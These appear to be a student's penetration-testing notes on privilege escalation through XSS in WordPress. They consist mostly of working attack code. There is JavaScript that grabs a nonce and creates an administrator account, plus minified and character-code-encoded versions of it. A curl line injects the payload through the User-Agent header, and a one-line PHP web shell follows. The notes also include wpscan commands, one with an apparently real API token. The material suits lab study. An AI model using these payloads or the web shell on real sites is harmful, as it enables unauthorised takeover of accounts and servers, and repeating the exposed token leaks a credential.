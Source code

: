 ### Cross-Site Scripting (XSS)  - **XSS Tools - HackTricks**   - [Link](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-tools)  
### Common Special Characters for XSS  - ` > ' " { } ;`  
### Resources  - [Percent-encoding - Wikipedia](https://en.wikipedia.org/wiki/Percent-encoding)  
## Privilege Escalation via XSS 
### JavaScript Code for Nonce  
```javascript var ajaxRequest = new XMLHttpRequest(); var requestURL = "/wp-admin/user-new.php"; var nonceRegex = /ser" value="([^"]*?)"/g; ajaxRequest.open("GET", requestURL, false); ajaxRequest.send(); var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); var nonce = nonceMatch[1]; var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator"; ajaxRequest = new XMLHttpRequest(); ajaxRequest.open("POST", requestURL, true); ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); ajaxRequest.send(params);``

### Compressed JavaScript

javascriptCopy code

`var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);`

### Encoding to JavaScript

javascriptCopy code

`function encode_to_javascript(string) {     var input = string     var output = '';     for(pos = 0; pos < input.length; pos++) {         output += input.charCodeAt(pos);         if(pos != (input.length - 1)) {             output += ",";         }     }     return output; }  let encoded = encode_to_javascript('var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);') console.log(encoded)`

### Result of Code Run in Console



`118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112`

### Usage Example with CURL

`curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...));</script>" --proxy 127.0.0.1:8080`

### WordPress Reverse Shell

- [WordPress: Reverse Shell - Hacking Articles](https://www.hackingarticles.in/wordpress-reverse-shell/)
### Finding WordPress with WPScan

bashCopy code
`wpscan --url http://offsecwp/`

GET AN API TOKEN!!!!!
┌──(hollacosta㉿kali1)-[~]
└─$ wpscan --url http://alvida-eatery.org --api-token wkxSffDwg1OWHj50PpxpOVybhRIxdfYVCqSYeEzE1F8

### Reverse Shell PHP Script for Wordpress

- [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Use the **tun0** IP address for the reverse shell.

<?php system($_GET['cmd']); ?>

